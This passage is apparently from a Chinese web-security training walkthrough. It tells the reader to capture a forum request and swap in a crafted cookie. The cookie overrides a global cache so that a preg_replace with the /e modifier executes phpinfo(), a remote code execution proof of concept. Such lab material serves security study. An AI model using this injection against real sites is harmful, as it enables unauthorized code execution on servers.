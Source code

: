 [![](assets/1704850598-252c284565d65001f6cde6763e0e885e.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/YYPBihROEbcafiVd.png)  
安装好后随便访问个帖子，并抓包。  
把 cookie 进行替换

```bash
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
```

[![](assets/1704850598-48905d6f1bec7e89f2e5752e465b25f6.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/HnxCrDDAvqc8YwM6.png)
